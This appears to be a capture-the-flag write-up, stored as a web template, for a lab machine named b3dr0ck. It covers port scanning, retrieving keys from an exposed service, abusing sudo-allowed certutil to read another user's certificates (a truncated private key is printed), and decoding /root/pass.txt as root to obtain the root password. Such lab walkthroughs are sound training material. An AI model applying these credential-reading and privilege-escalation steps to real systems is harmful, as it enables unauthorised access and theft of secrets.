 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin with port scanning.")}}

{{console("nmap -T5 -p- 10.10.222.234", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 01:53 CET
Warning: 10.10.222.234 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.222.234
Host is up (0.081s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http         nginx 1.18.0 (Ubuntu)
4040/tcp  open  ssl/yo-main?
9009/tcp  open  pichat?
54321/tcp open  ssl/unknown")}}

{{text("We find 5 open ports:")}}

{{list(['22 (SSH)', '80 (HTTP)', '4040 (yo-main)', '9009 (pichat)', '54321'])}}

{{text("We should investigate these ports further.")}}

{{header("Shell as barney", "shell-as-barney")}}

{{text("Let's begin with the web page.")}}

{{text("We get redirected to port <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>4040</code> with the following message.")}}

{{image("../../static/writeups/b3dr0ck/images/000001.jpg")}}

{{text("Then I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>nc</code> command to connect to the service on port 9009.")}}

{{image("../../static/writeups/b3dr0ck/images/000002.jpg")}}

{{text("Since the page mentioned securing connections with certificates, I typed that in and got a certificate.")}}

{{text("It is mentioned it's a service for recovering keys as well. You can type <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>key</code> as well to get a private key.")}}

{{text("If you type in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>help</code>, you get a command you are supposed to use to connect to the service at port 54321.")}}

{{text("I saved the certification and the key into files and used the command.")}}

{{text("We got a password.")}}

{{image("../../static/writeups/b3dr0ck/images/000003.jpg")}}

{{text("We now can log in as user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>barney</code> via SSH by using this password.")}}

{{header("Shell as fred", "shell-as-fred")}}

{{text("Since we got the password, I started off by checking our sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil")}}

{{text("Seemed like we can run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>certutil</code> as root. I used it and found certificates and keys for other users.")}}

{{console("certutil ls", "Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30  2022 .
drwxrwxr-x 8 root root 4096 Apr 29  2022 ..
-rw-r----- 1 root root  972 Dec 13 00:44 barney.certificate.pem
-rw-r----- 1 root root 1678 Dec 13 00:44 barney.clientKey.pem
-rw-r----- 1 root root  894 Dec 13 00:44 barney.csr.pem
-rw-r----- 1 root root 1674 Dec 13 00:44 barney.serviceKey.pem
-rw-r----- 1 root root  976 Dec 13 00:44 fred.certificate.pem
-rw-r----- 1 root root 1678 Dec 13 00:44 fred.clientKey.pem
-rw-r----- 1 root root  898 Dec 13 00:44 fred.csr.pem
-rw-r----- 1 root root 1674 Dec 13 00:44 fred.serviceKey.pem")}}

{{text("I was able to read these files by using the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>-a</code> flag.")}}

{{console("sudo certutil -a fred.certificate.pem", "Generating credentials for user: a (fredcertificatepem)
Generated: clientKey for a: /usr/share/abc/certs/a.clientKey.pem
Generated: certificate for a: /usr/share/abc/certs/a.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAqkl6xhhp/COIAXfwpwYs5BpH18MKf0FYSVmxXgjvgl+lNxdN
O+GyVH9OfTNpmMHYjH1PlETgg1eO2ZXToF7GSXrSvX2sL6ZSoJBpXOJ03DYVAOat
YaBDT/U46sK5hex44WxGCJNhC1HNPg16SHetED32frw23USQothmnba1J5gbWOhV
Gk0/NMGxGYeYpLiUA6y8ksRNyhOB8ngDg522XK+ujMJDGgGZqEX4PWQF8Fr4CqSm
...")}}

{{text("We once again save those into files and use the service on port 54321 to get user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>fred</code> password.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("We once again have a password so let's check our sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt")}}

{{text("We can run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>base64</code> on the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pass.txt</code> file as root.")}}

{{text("What we need to do is to use a combination of base64 and base32 decoding to get a valid looking string.")}}
    
{{console("sudo /usr/bin/base64 /root/pass.txt | base64 -d | base32 -d | base64 -d", "[REDACTED]")}}

{{text("We get a string that looks like a hash. We can use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hashes.com</code> to get the password.")}}

{{image("../../static/writeups/b3dr0ck/images/000004.jpg")}}

{{text("Now we use this password to switch to root and get the last flag.")}}

{{image("../../static/writeups/b3dr0ck/images/000005.jpg")}}

{{script()}}